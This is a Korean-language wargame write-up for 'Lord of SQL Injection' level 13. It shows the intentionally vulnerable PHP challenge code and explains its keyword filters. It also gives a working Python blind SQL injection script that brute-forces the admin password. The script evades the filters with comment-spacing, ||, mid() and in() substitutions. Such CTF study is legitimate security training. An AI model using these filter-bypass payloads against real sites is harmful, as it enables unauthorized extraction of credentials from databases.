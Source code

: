 # Lord of SQL Injection No.13 - bugbear

## 문제 출제 의도

=과 LIKE를 우회하고 각종 필터링을 우회하여 문제를 해결한다.

## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```
* preg_match()에서 no의 문자열에서 'prob','_','.','()','substr','ascii','=','or','and',' ','like','0x'를 필터링한다.

* preg_match()에서 pw의 문자열에서 '를 필터링한다.

* Blind SQL Injection임을 알 수 있다.

## 문제 해결방안
```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = "" # pw 값을 저장할 문자열 변수

for i in range(1,9):
    for j in range(ord('0'),ord('z')):
        url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="  # SQL Injection 공격 대상인 URL에서 변경되지 않는 부분이다.
        add_url = '-1/**/||/**/mid(pw,1,{})/**/in("{}")'.format(str(i), result+chr(j))
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=ae1i7c038nndgup1torche1pt7")

        res = urllib.request.urlopen(re)

        if str(res.read()).find("Hello admin") != -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break

print("Finished Searching.")
print("Password : " + result)
```
* =과 like를 우회하기 위하여 in함수를 사용한다.

* substr를 우회하기 위하여 mid함수를 사용한다.

코드의 실행결과 735c2773가 출력되므로 …?pw=735c2773를 입력하면 문제풀이에 성공된다.